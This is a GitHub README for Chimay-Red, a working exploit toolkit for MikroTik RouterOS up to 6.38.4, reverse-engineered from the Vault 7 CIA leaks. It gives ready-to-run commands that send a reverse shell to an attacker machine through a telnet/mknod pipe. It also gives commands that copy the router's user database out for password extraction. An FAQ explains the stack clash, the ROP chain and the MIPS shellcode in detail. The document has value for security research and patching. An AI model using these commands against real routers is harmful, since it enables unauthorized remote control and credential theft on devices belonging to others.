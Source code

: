 # Chimay-Red
Reverse engineering of Mikrotik exploit from Vault 7 CIA Leaks  

See the PDF for more info 

# Vulnerable versions  
Until RouterOS 6.38.4  

What's new in 6.38.5 (2017-Mar-09 11:32):  
!) www - fixed http server vulnerability;

# Proof of concepts
## CrashPOC  
Simple crash sending -1 as content-length in post header 

## StackClashPOC  
Stack clash exploit using two threads, missing ROP chain

# Working exploits
## StackClash_x86  
Stack clash exploit using two threads  with ROP chain to run bash commands  

### For a reverse shell:  
```
$ nc -l -p 1234  # (in another shell)
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "/bin/mknod /ram/f p; /bin/telnet 192.168.8.5 1234 < /ram/f | /bin/bash > /ram/f 2>&1"
```
Where:  
- RouterOS IP: 192.168.8.1  
- PC IP: 192.168.8.5  

### To extract users and passwords
```
$ ./StackClash_x86.py 192.168.8.1 80 www_binary "cp /rw/store/user.dat /ram/winbox.idx"
$ sleep 3 # (wait some seconds that www is restarted)
$ wget http://192.168.8.1/winbox/index
$ ./tools/extract_user.py index
```

As the ROP is dynamically created, you have to extract the `www` binary from the RouterOS firmware.   
(It's placed in `/nova/bin/`)  
Check that the running version is the same.  
To simplify extraction you can use:
```
$ ./tools/getROSbin.py 6.38.4 x86 /nova/bin/www www_binary
```

## StackClash_mips  
Stack clash exploit using two threads with ROP chain + shell code to run bash commands  
On mips version of www the stack is RWX, so we can jump to the stack.

You can run the same bash command as the x86 version.  
The exploit is dynamically created, so it should work on any version minor than 6.38.4.  

### LCD  
Funny command  
```
$ ./tools/getROSbin.py 6.38.4 mipsbe /nova/bin/www www_binary
$ ./StackClash_mips.py 192.168.8.1 80 www_binary "echo hello world > /dev/lcd"
```
![image](https://github.com/BigNerd95/Chimay-Red/raw/master/docs/screen_image.jpg)

# FAQ
#### Where does one get the chimay-red.py file, that this tool kit relies on?  
This is a reverse engineering of leaked CIA documentation.  
There is no chimay-red.py publicly available.  

#### I can't understand how the stack clash work.
I'll update the PDF as soon as I have enough time, anyway:  
We know that:  
- each thread has 128KB of stack  
- each stack of each thread is stacked on the top of the previous thread.  

Thanks to Content-Length and alloca macro we can control the Stack Pointer and where the post data will be written.  
If we send a Content-Length bigger than 128KB to socket of thread A, the Stack Pointer will point inside the stack of another thread (B) and so the POST data (of thread A) will be written inside the stack of thread B (in any position we want, we only need to adjust the Content-Length value).  
So now we can write a ROP chain in the stack of thread B starting from a position where a return address is saved.  
When we close the socket of thread B, the ROP chain will start because the function that is waiting for data will return (but on our modified address).

##### x86  

The ROP chain construct "system" string and "your_shell_cmd" string looking for chunks of strings inside the binary and concatenating them in an unused area of memory.  
Then we return to "dlsym" function (present in the PLT) passing as argument the address of just created string "system" to find the address of "system" function.   
Now we can return to the address of system passing as argument the address of the just created string "your_shell_cmd".  

##### mips
DEP is disabled on this version of www, so I can execute the stack.  
But I cannot use system function because "/bin/sh" is not present on the file system, so I used execve directly.  
A small ROP (3 gadgets) find the address of a location on the stack (where I put the shell code), and then jump to that address.  
In the shell code I populate an array of 4 pointers with the address of the strings "/bin/bash", "-c", "your_shell_cmd" using the leaked address of the stack (the last pointer is left NULL).  
Then I populate a0, a1, a2 with rispectively: address of "/bin/bash", address of the array populated at the preceeding step and the address of the NULL entry of the array.  
At this point I can launch the syscall 4011 (execve) to execute my bash command.  
